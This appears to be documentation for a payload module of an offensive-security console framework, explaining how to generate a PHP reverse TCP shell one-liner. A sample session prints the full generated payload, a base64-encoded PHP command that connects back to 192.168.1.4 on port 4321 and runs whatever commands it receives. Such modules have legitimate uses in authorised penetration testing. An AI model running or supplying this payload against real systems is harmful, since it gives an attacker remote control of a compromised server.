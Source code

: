 ## Description

Module generates payload that creates interactive tcp reverse shell by using php one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/php_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates php tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/php_reverse_tcp
rsf (PHP Reverse TCP One-Liner) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (PHP Reverse TCP One-Liner) > set lport 4321
[+] lport => 4321
rsf (PHP Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
php -r "eval(base64_decode('JHM9ZnNvY2tvcGVuKCJ0Y3A6Ly8xOTIuMTY4LjEuNCIsNDMyMSk7d2hpbGUoIWZlb2YoJHMpKXtleGVjKGZnZXRzKCRzKSwkbyk7JG89aW1wbG9kZSgiXG4iLCRvKTskby49IlxuIjtmcHV0cygkcywkbyk7fQ=='));"
```
